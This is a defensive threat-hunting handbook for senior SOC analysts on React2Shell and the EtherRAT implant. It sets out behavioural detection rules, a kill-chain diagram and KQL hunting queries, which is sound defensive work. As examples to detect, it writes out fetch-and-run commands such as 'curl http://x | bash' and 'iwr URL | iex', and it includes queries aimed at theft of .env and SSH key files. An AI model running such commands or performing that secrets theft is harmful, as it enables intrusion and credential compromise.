

# L3 Analyst Handbook – Deep Behavioural Edition  
### React2Shell + EtherRAT Unified Detection Framework  
Author: **Ala Dabat (azdabat)**  
Version: **2025-L3**

---

# Table of Contents
1. Purpose & Audience
2. Behavioural Detection Philosophy (L3 Focus)
3. Tradecraft Overview (React2Shell + EtherRAT)
4. Deep Behavioural Notes per Detection Rule
5. Visual Attack Path Illustrations
6. L3 Pivot Guidance
7. L3 Correlation Graphs
8. Appendix A — High-Value Signals
9. Appendix B — Suppression vs Escalation Rules
10. Appendix C — Advanced KQL Pivot Kits

---

# 1. Purpose & Audience

This handbook is a **deep behavioural guide for L3 analysts, threat hunters, and detection engineers** responsible for:

- interpreting detection outputs at an adversary-behaviour level  
- validating or dismissing complex multi-stage attacks  
- correlating telemetry across process, network, file, registry  
- building or extending behavioural detection logic  

This is not a SOC1 playbook. It focuses on **behaviour → intent → kill chain interpretation**.

---

# 2. Behavioural Detection Philosophy (L3 Focus)

Key ideas driving all React2Shell/EtherRAT detections:

### **2.1 Execution Context > Indicators**
The same command line means different things depending on *who launched it*.  
Example:

- `curl http://… | bash` spawned by a developer? → FP possible.  
- `curl http://… | bash` spawned by `node.exe`? → High-confidence RCE.  
- `curl http://… | bash` spawned by an unsigned Rust binary in `%AppData%`? → Likely post-exploit loader.

### **2.2 RCE Behaviours Are Portable Across Families**
React2Shell is a web exploitation chain. EtherRAT is a web3 C2 implant.  
But the **post-exploitation surface overlaps heavily**:

- shell spawning  
- staged tooling  
- payload decoding  
- AMSI bypass  
- secrets harvesting  
- lightweight loader  
- outbound RPC C2  

Thus the detection framework uses **cross-family behavioural clusters**, not signature-based rule design.

### **2.3 Intent Signals Outweigh Single IOCs**
L3 triage should elevate signals that prove:

- evasion  
- staging  
- credential access  
- stealth loader execution  
- unknown binary execution in userland  

These are attacker-intent indicators.

---

# 3. Tradecraft Overview (React2Shell + EtherRAT)

## 3.1 React2Shell  
Vulnerability class: **deserialization → arbitrary command execution** via Next.js/React flight protocol.  
Primary post-exploit behaviour:

- Web → Shell pivot  
- Tool staging (curl/iwr)  
- Encoded PowerShell  
- AMSI bypass  
- Dropper creation  
- Secrets enumeration  

## 3.2 EtherRAT  
Modern implant characteristics:

- Rust loader  
- Web3-aware RPC C2  
- VS Code supply chain (extension abuse)  
- Secrets harvesting  
- Fileless execution  
- Keypair compromise → persistence  

## 3.3 Combined Kill Chain (Unified View)

```
[Web Exploit]
      ↓
[Web → Shell]
      ↓
[Staging: curl | bash]
      ↓
[Obfuscation: Base64 / AMSI bypass]
      ↓
[Secrets Enumeration]
      ↓
[Loader Deployment (Rust)]
      ↓
[RPC C2 Beacon]
      ↓
[Follow-On Persistence]
```

This combined view explains why the detection framework is **modular but interconnected**.

---

# 4. Deep Behavioural Notes per Detection Rule

Below are L3-only explanations: what the rule detects, why it matters, adversary intention, and environment-specific risk.

---

## 4.1 WebRCE_ProcessPivot_L3  
### Behavioural Meaning  
A web server process (node, nginx, w3wp, dotnet, java) is **not meant to spawn a shell**, ever.  
This rule detects:

- direct post-exploitation  
- exploitation of deserialization bugs  
- arbitrary command execution  
- exploitation of web handler vulnerabilities  

### L3 Interpretation  
This signal *cannot* be explained away by typical admin behaviour.  
Even CI/CD processes do not normally spawn shells **from the web runtime itself**.

### Why Attackers Do This  
- enumerate system  
- fetch tooling  
- establish operator-level control  
- pivot downward into OS APIs  

### L3 Risk  
**Critical** unless proven false.

---

## 4.2 WebRCE_Staging_L3  
### Behavioural Meaning  
Staged payload fetch immediately after shell spawn.

Patterns:  
- `curl http://x | bash` (fileless loader)  
- `wget -O - | bash`  
- `iwr URL -UseBasicParsing | iex`  

### Why It Matters  
Attackers avoid dropping files early in kill chain.  
Stage-1 loader is typically:

- memory loader  
- enumeration script  
- secondary downloader  

### L3 Risk  
High even without parent correlation.  
Extremely high when correlated with WebRCE_ProcessPivot_L3.

---

## 4.3 AMSI_Obfuscation_L3  
### Behavioural Meaning  
Presence of:

- AMSI bypass
- Reflection assembly loading
- Large Base64 payloads  
- Obfuscated PowerShell loaders  
- Encoded stagers  

This is **operator-grade evasion**, not commodity malware.

### Why Attackers Do This  
- prevent AV inspection  
- prevent script-block logging  
- load assembly payloads directly  

### L3 Risk  
**Critical**.  
This is attacker intent, not tooling accident.

---

## 4.4 SecretsRecon_L3  
### Behavioural Meaning  
Access to:

- `.ssh/id_rsa`  
- `.env` files  
- cloud credentials  
- API tokens  

### Why Attackers Do This  
To establish:

- long-term persistence  
- silent access to cloud resources  
- session hijack  
- lateral movement  

### L3 Risk  
Credential exposure = **breach**, even without malware.

---

## 4.5 VSCodeExtension_Abuse_L3  
### Behavioural Meaning  
Installation of non-Microsoft, unsigned VS Code extensions.

### Why Attackers Use It  
VS Code extensions support:

- startup scripts  
- persistence  
- hidden execution of binaries  
- JS-based implants  

### L3 Risk  
Moderate alone → High when child processes execute unknown binaries.

---

## 4.6 RustLoader_UserlandExec_L3  
### Behavioural Meaning  
Unsigned or unknown binaries executed from:

- `%TEMP%`  
- `%APPDATA%`  
- `/tmp`  
- build directories  

### Why Attackers Do This  
Rust payloads provide:

- static linking (no dependencies)  
- native speed  
- cross-platform durability  
- evasion from signature-based AV  

### L3 Risk  
High to Critical.

---

## 4.7 Blockchain_RPC_C2_L3  
### Behavioural Meaning  
Outbound connections to Ethereum/Solana RPC endpoints used as C2.

RPC allows:

- encrypted data transport  
- unmonitored channels  
- stateless beacons  
- bypassing domain reputation filters  

### L3 Risk  
Medium alone → Critical if loader correlation exists.

---

# 5. Visual Attack Path Illustrations

## 5.1 Unified ASCII Attack Path

```
                 ┌───────────────────────────┐
                 │   React2Shell Exploitation│
                 └───────────────┬───────────┘
                                 │
                         Web → Shell (P1)
                                 │
                ┌────────────────┴──────────────────┐
                │                                   │
     Staging (curl|bash) (P2)            Obfuscation / AMSI (P1)
                │                                   │
                └──────────────┬────────────────────┘
                               │
                       Secrets Recon (P1/P2)
                               │
                      Rust Loader Execution (P1)
                               │
                    Blockchain RPC C2 (P2 → P1)
```

---

## 5.2 Unified Mermaid Attack Path

```mermaid
flowchart TD

A[React2Shell Exploit<br>Next.js RCE] --> B[Web → Shell Pivot<br>node/nginx → bash/pwsh]

B --> C[Staging<br>curl|bash, iwr download]
B --> D[Obfuscation<br>Base64, AMSI bypass]

C --> E[Secrets Recon<br>.ssh, .env, keys]
D --> E

E --> F[Rust Loader Execution<br>Unsigned binary in user paths]
F --> G[Blockchain RPC C2<br>solana / infura / alchemy]

G --> H[Operator Control / Persistence]
```

---

# 6. L3 Pivot Guidance

## 6.1 Process Tree Validation
```
DeviceProcessEvents
| where InitiatingProcessId == <PID>
| sort by Timestamp asc
```

## 6.2 Payload Drop Identification
```
DeviceFileEvents
| where InitiatingProcessId == <PID>
```

## 6.3 C2 Confirmation
```
DeviceNetworkEvents
| where RemoteUrl has_any ("solana","infura","alchemy","etherscan")
```

## 6.4 Secrets Theft Confirmation
```
DeviceFileEvents
| where FileName has_any (".env","id_rsa")
```

---

# 7. L3 Correlation Graphs



This is the correlation logic L3 analysts use to determine adversary progression.

---

# 8. Appendix A — High-Value Signals

| Behaviour | Why It Matters |
|----------|----------------|
| Web → Shell | Direct RCE evidence |
| curl|bash | Fileless dropper |
| AMSI bypass | Attacker intent |
| Large Base64 payload | Encoded loader |
| Access to secrets | Credential compromise |
| Unsigned Rust binary | Loader execution |
| RPC to Infura/Solana | Implant beacon |

---

# 9. Appendix B — Suppression vs Escalation Rules

### Suppress Only If:
- DevOps pipelines verified  
- CI/CD servers with known automation  
- Developer endpoints with tags indicating blockchain dev  

### Escalate Always If:
- Shell spawned from web process  
- AMSI bypass detected  
- Secrets recon on production server  
- Unsigned binary in userland  
- RPC C2 on non-blockchain assets  

---

# 10. Appendix C — Advanced KQL Pivot Kits

## Web Shell Session Replay
```
DeviceProcessEvents
| where Timestamp between (datetime(<start>) .. datetime(<end>))
| where DeviceId == "<device>"
| order by Timestamp asc
```

## Detect Follow-On Persistence
```
DeviceRegistryEvents
| where ActionType == "RegistryValueSet"
| where RegistryKey has_any ("Run","RunOnce","Services")
```

## Identify Lateral Movement Attempts
```
DeviceNetworkEvents
| where RemotePort in (22,3389,5985)
```

---

# END – L3 Analyst Handbook (Deep Behavioural Edition)
